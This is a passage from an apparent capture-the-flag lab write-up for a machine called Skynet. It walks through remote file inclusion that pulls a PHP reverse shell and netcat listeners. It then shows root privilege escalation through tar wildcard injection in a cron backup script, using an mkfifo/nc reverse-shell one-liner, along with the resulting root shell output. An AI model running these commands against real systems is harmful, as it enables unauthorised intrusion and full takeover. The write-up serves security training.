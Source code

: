 ```
    $ip = '10.2.18.4';  // CHANGE THIS
    $port = 4444;       // CHANGE THIS
```
- Open a simple http server from the location where the php reverse shell is, using `python3 -m http.server`, so the attacker will be able to download the file.
- Open a netcat on 4444 `nc -lnvp 4444`.
- From the terminal, send a request including Remote File Inclusion.
`curl http://10.10.166.117/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig\=http://10.2.18.4:8000/php-reverse-shell.php`
- This will open up the remote shell with the id `www-data` and capture the user flag at `/home/milesdyson/user.txt`.  

### Escalating the privileges

- By checking the crontab entries, there is one entry that is performing backup every minute and by root id.

```
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh

$ cat /home/milesdyson/backups/backup.sh
  #!/bin/bash
  cd /var/www/html
  tar cf /home/milesdyson/backups/backup.tgz *
```

- We will be exploiting using the [Wildcard on Linux](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/).
- Open another netcat session on the attacker machine with a different port, 4446 to get the reverse shell.
- Create a payload for reverse shell with destination:
```bash
    cd /var/www/html  
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.2.18.4 4446 >/tmp/f" > shell.sh  
    touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"  
    touch "/var/www/html/--checkpoint=1
```

- Once the scheduler runs, we will get a root shell.

```bash

    $ nc -lnvp 4446
    listening on [any] 4446 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.166.117] 49360
    bash: cannot set terminal process group (4812): Inappropriate ioctl for device
    bash: no job control in this shell
    root@skynet:/var/www/html# cd /root
    cd /root
    root@skynet:~# ls -lrt
    ls -lrt
    total 4
    -rw-r--r-- 1 root root 33 Sep 17  2019 root.txt
    root@skynet:~# cat root.txt
    cat root.txt
    3f0372db2--------7179a282cd6a949
```
